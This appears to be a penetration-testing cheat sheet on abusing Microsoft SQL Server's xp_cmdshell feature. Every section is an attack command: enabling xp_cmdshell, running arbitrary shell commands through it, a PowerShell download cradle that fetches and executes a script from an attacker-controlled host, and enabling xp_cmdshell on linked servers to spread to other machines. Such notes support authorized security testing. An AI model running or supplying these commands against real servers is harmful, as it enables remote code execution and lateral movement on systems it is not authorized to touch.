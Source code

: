 ### Enable xp_cmdshell SQL Server configuration
```
mssql> enable_xp_cmdshell
```

### Execute shell command
```
mssql> EXEC xp_cmdshell <command>
```

### Download string and invoke expression
```
mssql> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://<lhost>/<file>.txt") | powershell -noprofile'
```

### Enable xp_cmdshell on linked servers
```
mssql> EXEC('sp_configure ''show advanced options'',1; reconfigure;') AT [<fdqnRhost>]
mssql> EXEC('sp_configure ''xp_cmdshell'',1; reconfigure;') AT [<fdqnRhost>]
mssql> SELECT * FROM OPENQUERY("<fqdnRhost>", 'select * from sys.configuration where name = ''xp_cmdshell''')
```


